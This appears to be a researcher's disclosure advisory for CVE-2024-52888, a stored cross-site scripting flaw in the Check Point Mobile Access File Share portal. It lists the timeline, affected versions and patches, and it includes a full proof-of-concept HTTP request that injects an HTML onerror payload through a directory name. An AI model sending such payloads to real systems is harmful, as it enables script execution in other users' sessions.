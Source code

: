 # CVE-2024-52888
Check Point Mobile Access portal File Share application - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal File Share application. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

An authenticated attacker could create malicious file or directory names that, when accessed by another authenticated user, may trigger the portal to execute a script while displaying the directory or file properties.

Payload can be saved using following request:
```
POST /sslvpn/HFS/index.php?NFSaction=createDir&Server=[REDACTED]&Share=Portal_Share&dir=. HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21390880402331902083754323923
Content-Length: 367
Origin: [REDACTED] 
Connection: keep-alive


-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="dir"

.
-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="name"


zzz2"><img%20src=x%20onerror='alert(document.domain)'>
-----------------------------21390880402331902083754323923--
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183055. ￼

### References
* https://support.checkpoint.com/results/sk/sk183055
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52888
* https://www.cve.org/CVERecord?id=CVE-2024-52888
